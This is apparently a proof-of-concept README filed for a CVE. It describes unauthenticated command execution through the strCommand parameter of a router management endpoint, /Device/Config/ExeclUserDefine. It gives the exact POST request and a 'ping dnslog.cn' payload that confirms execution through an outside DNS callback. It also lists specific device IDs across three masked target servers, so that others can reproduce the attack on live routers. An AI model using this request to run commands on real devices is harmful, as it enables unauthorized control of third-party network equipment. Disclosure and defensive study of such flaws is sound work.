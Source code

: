 

# CVE-Poc-1



 

##  Readme

   Only for the CVE application--by Zjackky



​                         

## Vulnerability description



Interface address     /Device/Config/ExeclUserDefine  



Interface parameter  groupId=&deviceCode=02180011&strCommand=ls&type=1



Request mode POST



Parameter analysis DeviceCode (Router device ID) StrCommand (Code to execute) 



### Start the demonstration

Tips: Hello, here I provide the device ID so that you can reproduce it quickly. Some devices are not online, so please use the ID I gave when you reproduce them. I have tested and reviewed them hard



Case 1 : http://xxxxx:8xxxx 

Router device ID:

02180102

02180011

02180021

02180027

02180142

02180168

02180170

02190007

02190091



1. Use Postman to send packets
2. POST http://xxxxx:xxxxx /Device/Config/ExeclUserDefine 
3. Params   groupId=&deviceCode=02180102&strCommand=ping dnslog.cn &type=1
4. The outgoing command is dnslog. After the command is executed, you can receive dnslog messages
5. After executing the command, you can receive a dnslog message, which means that the command can be successfully executed



![image-20230530141315701.png](C:\Users\Zachariah.Jack\Desktop\tmp_wp_picture\JfU3TiXsjznaeAc.png)







Case 2：http://xxxxx0:xxxxxx1

Router device ID:

20010010

2106260520002 

2107042520002

2106260120002

2107042320002

 Just do the same thing as in case 1

 

Case 3： http://xxxxx:xxxxxx/

Router device ID:

10031

10072

10004

20031

20072

10001

  Just do the same thing as in case 1



 

